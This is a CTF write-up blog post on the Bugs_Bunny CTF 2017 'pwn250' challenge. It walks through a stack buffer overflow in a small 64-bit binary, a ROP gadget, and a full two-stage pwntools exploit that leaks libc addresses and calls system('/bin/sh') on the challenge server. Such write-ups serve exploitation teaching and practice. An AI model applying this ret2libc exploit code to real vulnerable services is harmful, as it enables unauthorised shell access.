 ```yaml
---
layout: post
title:  "Bugs_Bunny CTF 2017 - pwn250"
date:   2017-07-31 5:00
categories: CTF
tags: [BugsBunnyCTF2017]
categories: [Pwn]
author: jbz
---
```



This was a pretty standard, stack-based overflow. You can download the file [here](https://github.com/jbzteam/CTF/raw/master/BugsBunnyCTF2017/pwn250/pwn250).

Through `file` and `checksec` we see that it's a 64-bit ELF non-stripped binary, dynamically linked, compiled with only the `NX` mitigation:
```bash
$ file ./pwn250 
./pwn250: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b92b9ef9aa21452b83be93778ed175c6c37de92d, not stripped
$ checksec ./pwn250 
[*] './pwn250'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

If we open the binary with IDA, we see from the pseudocode that it's a quite simple binary:
```c
int main(int argc, const char **argv, const char **envp)
{
  here();
  write(1, "Hello, World\n", 13);
  return 0;
}
ssize_t here()
{
  char buf[128];

  return read(0, buf, 256);
}
```

The vulnerability is clear: there is a `read` call that reads 256 bytes from standard input and writes them in a variable that can contain 128 bytes.

There is NX so we cannot inject and execute shellcode directly. Our strategy then is to create a small ROP chain to call `system` and execute a shell.

First we need to gather the address of `system` from `libc`, and find an address that points to `/bin/sh`. Since the binary is not PIE, we can use one of the functions imported from libc to leak their address. Our target is `read`.

In order to do this we can use the `write` to print the address of `read`. The organizers were kind enough to leave a function called `foryou` with a great gadget:
```asm
.text:0000000000400566 foryou          proc near
.text:0000000000400566                 push    rbp
.text:0000000000400567                 mov     rbp, rsp
.text:000000000040056A                 pop     rdi
.text:000000000040056B                 pop     rsi
.text:000000000040056C                 pop     rdx
.text:000000000040056D                 retn
```

We can use this gadget to prepare the registers before the call to `write`. Our payload/ROP chain to leak the address of `read` looks like this:
```python
payload = ""
payload += "A" * 128
payload += p64(0xcafebabe) # RBP
payload += p64(0x400567) # mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(0x1) # rdi
payload += p64(0x601020) # rsi - address of read
payload += p64(0x10) # rdx - number of bytes to write
payload += p64(0x400430) # address of write
payload += p64(0x4005A6) # jump back to here
```

One thing to keep in mind: we include the `mov rbp, rsp` in the ROP chain because if `rbp` contains an invalid address, the subsequent `leave` would fail and the program would crash. With the `mov` we make sure that `rbp` points to a valid address.

After using the gadget to populate the registers, we call `write` and when it returns we go back to the function `here` where we can send our second payload to get the shell.

Once we get the address of `read`, we can calculate the base address for `libc` (which was provided), and consequently the address of `system` and of the string `/bin/sh` in the binary.

Our second payload looks like this:
```python
payload = ""
payload += "A"*128
payload += p64(0xcafebabe) # RBP
payload += p64(0x400633) # pop rdi; ret; 
payload += p64(sh_address) # rdi
payload += p64(system_address)

```

This second payload first pops the address of `/bin/sh` into `rdi` and then executes `system`.

The full exploit code is below. Sorry guys, I forgot to save the flag :P
```python
from pwn import *

local = 0
if local:
    p = process("./pwn250")
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
else:
    p = remote("54.153.19.139", 5255)
    libc = ELF("./libc.so")

payload = ""
payload += "A"*128
payload += p64(0xcafebabe) # RBP
payload += p64(0x400567) # mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(0x1) # rdi - standard output
payload += p64(0x601020) # rsi - address of read
payload += p64(0x10) # rdx - number of bytes to write
payload += p64(0x400430) # address of write
payload += p64(0x4005A6) # jump back to here
p.sendline(payload)

leak_addr = u64(p.recv(8))
libc_base_addr = leak_addr - libc.symbols['read']
system_address = libc_base_addr + libc.symbols['system']
sh_address = libc_base_addr + next(libc.search("/bin/sh\x00"))
log.info("libc_base_addr @ {:08x}".format(libc_base_addr))

payload = ""
payload += "A"*128
payload += p64(0xcafebabe) # RBP
payload += p64(0x400633) # pop rdi; ret; 
payload += p64(sh_address) # rdi
payload += p64(system_address)
p.sendline(payload)

p.sendline("uname -a && id")
p.interactive()

```